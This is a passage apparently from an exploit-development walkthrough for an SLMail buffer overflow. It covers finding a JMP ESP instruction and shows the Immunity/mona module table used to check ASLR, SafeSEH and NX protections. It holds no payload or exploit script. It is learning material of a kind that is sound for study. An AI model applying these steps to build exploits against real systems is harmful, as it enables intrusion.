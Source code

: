 ![UI Screenshot](img/02.png)  

### 2. Find JMP instruction
The JMP ESP instruction will cause execution to jump forward to the payload which follows. It is ideal to find this instruction, rather than try and hardcode an address in, which will be difficult to get right with ASLR.  
Run `!mona modules` to check protections. The two files for SLMail are SLMail.exe and SLMFC.dll.
```
0BADF00D   !mona modules

           ---------- Mona command started on 2021-03-20 14:38:00 (v2.0, rev 563) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   ----------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Module info :
0BADF00D   ----------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
0BADF00D   ----------------------------------------------------------------------------------------------------------------------------------
0BADF00D    0x76080000 | 0x760e5000 | 0x00065000 | False  | True    | False |  False   | True   | 6.02.3104.0 [MSVCP60.dll] (C:\WINDOWS\system32\MSVCP60.dll)
0BADF00D    0x00340000 | 0x0036a000 | 0x0002a000 | True   | False   | False |  False   | False  | 1.0 [ARM.dll] (C:\Program Files\SLmail\ARM.dll)
0BADF00D    0x00e90000 | 0x01155000 | 0x002c5000 | True   | True    | False |  False   | True   | 5.1.2600.5512 [xpsp2res.dll] (C:\WINDOWS\system32\xpsp2res.dll)
0BADF00D    0x7c800000 | 0x7c8f6000 | 0x000f6000 | False  | True    | False |  False   | True   | 5.1.2600.5512 [kernel32.dll] (C:\WINDOWS\system32\kernel32.dll)
0BADF00D    0x77c10000 | 0x77c68000 | 0x00058000 | False  | True    | False |  False   | True   | 7.0.2600.5512 [msvcrt.dll] (C:\WINDOWS\system32\msvcrt.dll)
```